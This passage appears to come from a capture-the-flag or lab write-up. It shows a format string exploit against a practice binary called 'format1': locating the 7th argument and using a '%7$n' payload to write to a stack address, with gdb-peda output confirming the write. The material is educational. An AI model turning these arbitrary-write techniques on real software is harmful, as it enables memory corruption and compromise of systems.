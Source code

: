 As I said earlier, if we can find the pointer to "AAAA", we can replace *AAAA* by a specific address to write to. Just recheck the stack, you'll see that "AAAA" is the *7th* argument. 

```shell
$ ./format1
AAAA%7$p
AAAA0x41414141
Nope...
```

So, the following input `\xac\xf6\xff\xbf%7$n` should write "4" at **0xbffff6ac**. Let's me show you...

```nasm
gdb-peda$ b *0x00400665 ; Break @printf()
Breakpoint 1 at 0x400665
gdb-peda$ b *0x0040066a ; Break right after printf()
Breakpoint 2 at 0x40066a
gdb-peda$ run < <(python -c 'print "\xac\xf6\xff\xbf" + "%7$n"')
Starting program: /home/user/format1 < <(python -c 'print "\xac\xf6\xff\xbf" + "%7$n"')

[-------------------------------------code-------------------------------------]
   0x40065e <main+62>:	sub    esp,0xc
   0x400661 <main+65>:	lea    eax,[ebp-0x4c]
   0x400664 <main+68>:	push   eax
=> 0x400665 <main+69>:	call   0x400450 <printf@plt>
   0x40066a <main+74>:	add    esp,0x10
   0x40066d <main+77>:	cmp    DWORD PTR [ebp-0xc],0xcafebabe
   0x400674 <main+84>:	jne    0x40068f <main+111>
   0x400676 <main+86>:	sub    esp,0xc

Breakpoint 1, 0x00400665 in main ()
gdb-peda$ x/x 0xbffff6ac ; Check the value @ 0xbffff6ac
0xbffff6ac:	0xdeadc0de
gdb-peda$ continue
Continuing.
????

[-------------------------------------code-------------------------------------]
   0x400661 <main+65>:	lea    eax,[ebp-0x4c]
   0x400664 <main+68>:	push   eax
   0x400665 <main+69>:	call   0x400450 <printf@plt>
=> 0x40066a <main+74>:	add    esp,0x10
   0x40066d <main+77>:	cmp    DWORD PTR [ebp-0xc],0xcafebabe
   0x400674 <main+84>:	jne    0x40068f <main+111>
   0x400676 <main+86>:	sub    esp,0xc
   0x400679 <main+89>:	lea    eax,[ebx-0x1248]


Breakpoint 2, 0x0040066a in main ()
gdb-peda$ x/x 0xbffff6ac ; Check the value @ 0xbffff6ac (again)
0xbffff6ac:	0x00000004
```
